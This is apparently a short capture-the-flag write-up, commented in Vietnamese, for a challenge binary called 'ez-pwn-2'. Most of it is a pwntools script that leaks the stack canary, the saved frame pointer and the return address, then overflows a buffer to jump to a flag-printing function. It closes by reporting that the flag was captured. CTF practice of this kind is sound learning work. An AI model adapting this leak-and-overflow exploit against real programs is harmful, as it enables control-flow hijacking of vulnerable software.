 #### Exploit


```python
from pwn import *

stack_canary_offset = 0x18
rbp_offset = 0x20
ret_offset = 0x28
flag_offset = 0x12a

def read_leak(offset):
    proc.recvuntil(b': ')
    addr = int((proc.recvline().strip().decode()), 16) + offset
    proc.readline()
    proc.sendline((p64(addr).hex().encode())) # proc nhận hex string rồi phân tích thành mảng các byte
    proc.recvline() # ignore here are the...
    test = proc.recvline().strip().decode() # bỏ \n, chuyển về kiểu string
    change= ''
    for i in range(0,len(test),2): # vì dữ liệu đc leak ra theo dạng little endian nên phải convert cho đúng để tí còn send =))
        change = test[i:i+2] + change
    return int(change, 16) 
    # leaking value success

proc = process('./ez-pwn-2')
# find contents of all of part for exploit

canary= read_leak(stack_canary_offset)
rbp = read_leak(rbp_offset)# không cần tìm rbp này cũng đc, tớ lỡ rồi nên làm luôn =))
retAddr = read_leak(ret_offset)
new_return = retAddr - flag_offset
#24byte buff + 8byte canary + 8 byte rbp + 8 byte retAddr
payload = p64(0) * 3
payload += p64(canary)
payload += p64(rbp)
payload += p64(new_return)
proc.sendline(payload)
proc.interactive()

```
![ezp2.7](ezp2.7.png)
Thành công lấy được flag =)))